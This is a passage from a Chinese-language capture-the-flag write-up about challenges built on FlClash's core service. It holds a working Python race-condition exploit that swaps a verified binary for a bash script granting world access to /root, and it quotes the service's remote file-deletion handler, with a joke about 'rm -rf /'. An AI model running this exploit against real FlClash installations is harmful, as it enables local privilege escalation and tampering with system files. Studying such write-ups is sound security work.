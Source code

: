 ```sh
cp FlClashCore core
```

反复修改运行目标文件，试图使其在校验时是原版FlClashCore，运行前被修改为获取flag的程序，不断尝试直到成功为止。

```py
# cat | python3
import os
import time
import random
import requests
import threading

a = b'''#!/bin/bash
touch /tmp/ok
chmod -R 777 /root
touch /tmp/done
exit
'''
with open('/tmp/core', 'rb') as f:
    b = f.read(len(a))
assert len(a) == len(b)

def offmain():
    while True:
        print(time.time(), 'attempt to start clash')
        requests.post('http://127.0.0.1:47890/start',
            json={'path': '/tmp/core','arg': f'/tmp/{random.random()}'})
threading.Thread(target=offmain).start()

while True:
    try:
        with open('/tmp/core', 'rb+') as f:
            f.write(a)
    except:
        pass
    a, b = b, a
    time.sleep(0.000001)
    if os.path.exists('/tmp/ok'):
        print('OK!')
        exit()
```

### 炽热（未解出）

喜欢`rm -rf /`的小伙伴你们好呀，FlClashCore专门做了个远程[deleteFile动作](https://github.com/chen08209/FlClash/blob/v0.8.90/core/hub.go#L464-L489)。何意味？

```go
func handleDelFile(path string, result ActionResult) {
	go func() {
		fileInfo, err := os.Stat(path)
		if err != nil {
			if !os.IsNotExist(err) {
				result.success(err.Error())
			}
			result.success("")
			return
		}
		if fileInfo.IsDir() {
			err = os.RemoveAll(path)
			if err != nil {
				result.success(err.Error())
				return
			}
```
